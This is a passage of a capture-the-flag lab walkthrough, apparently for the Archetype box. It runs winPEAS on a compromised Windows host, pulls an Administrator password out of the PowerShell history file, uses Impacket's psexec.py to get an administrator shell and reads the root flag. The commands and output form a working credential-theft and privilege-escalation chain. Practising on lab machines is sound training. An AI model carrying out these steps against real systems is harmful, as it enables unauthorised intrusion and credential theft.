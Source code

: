             C:\Users\sql_svc\Desktop>dir
            dir
             Volume in drive C has no label.
             Volume Serial Number is 9565-0B4F
            
             Directory of C:\Users\sql_svc\Desktop
            
            08/18/2025  09:17 AM    <DIR>          .
            08/18/2025  09:17 AM    <DIR>          ..
            02/25/2020  07:37 AM                32 user.txt
            08/18/2025  09:17 AM         1,930,752 winPEASx64.exe
                           2 File(s)      1,930,784 bytes
                           2 Dir(s)  10,721,677,312 bytes free
________________________________________________________________________________________________________________________

### Execution ###
  " executing the winPeasx64 file we downloaded on the victim system: "
    .\winPEASx64.exe

We will read the PowerShell history file, which is the equivalent of bash_history for Linux systems

**The file ConsoleHost_history.txt can be located in the directory**
  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` 

`We got in cleartext the password for the Administrator user which is`
 (********_*dm1n!!)
________________________________________________________________________________________________________________________

### Shell ###
  "We can now use the tool psexec.py again from the Impacket suite to " 
           " get a shell as the administrator: "

┌──(kali㉿kali)-[~/Documents/Archetype/impacket/examples]
└─$ python3 psexec.py administrator@<ip>
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Requesting shares on <ip>.....
[*] Found writable share ADMIN$
[*] Uploading file otaZVEzk.exe
[*] Opening SVCManager on <ip>.....
[*] Creating service ENjp on <ip>.....
[*] Starting service ENjp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
  C:\Windows{}> 
________________________________________________________________________________________________________________________

### Exploitation ###

C:\Windows{}> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

       Directory of C:\Users\Administrator\Desktop
      
      07/27/2021  02:30 AM    <DIR>          .
      07/27/2021  02:30 AM    <DIR>          ..
      02/25/2020  07:36 AM                32 root.txt
                     1 File(s)             32 bytes
                     2 Dir(s)  10,723,348,480 bytes free

C:\Users\Administrator\Desktop> type root.txt
(--GET-THIS--YOURSELF-------------) #root flag#
